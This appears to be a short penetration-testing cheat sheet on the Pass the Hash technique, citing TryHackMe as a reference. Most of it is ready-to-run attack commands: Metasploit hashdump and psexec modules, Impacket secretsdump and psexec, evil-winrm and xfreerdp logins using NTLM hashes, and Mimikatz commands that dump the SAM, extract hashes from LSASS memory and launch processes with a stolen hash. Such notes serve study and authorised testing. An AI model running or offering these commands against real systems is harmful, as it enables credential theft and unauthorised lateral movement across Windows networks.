# Pass the Hash
Pass the hash technique allow an attacker to authenticate to a remote system or service using a user' NTLM hash instead of plaintext password. It requires access to the special administrative share named Admin$, thus also local administrative rights. There many tools for performing a similar to legimate use of connecting with SMB. [[Metasploit]] has:
```bash
post/windows/gather/hashdump
exploit/windows/smb/psexec
```

Another method:
```bash
pth-winexe -U $username%$NT:$LM //$ip cmd
```

[[Impacket-Cheatsheet]] with:
```bash
# Dump secrets for more ntlm
secretsdump.py $user@$ip -hashes $ntml
# Laterally move 
psexec -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

Or login with [[Evil-winrm-Cheatsheet]] using  `-H` 
```bash
evil-winrm -i $ip -u $user -H $ntml
```

[[RDP]] with `xfreerdp` with:
```bash
xfreerdp /v:$IP /u:DOMAIN\\Administrator /pth:$ntml
```

With [[Mimikatz-Cheatsheet]]
```powershell
privilege::debug
token::elevate
# Dump the SAM
lsadump::sam 
# Extract NTLM hashes from LSASS memory
sekurlsa::msv
# Revert Token to then use the hash from the above command's output
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```



## Reference

[THM Lateral movement and pivoting](https://tryhackme.com/room/lateralmovementandpivoting)
[Ippsec.rocks](https://ippsec.rocks/?#)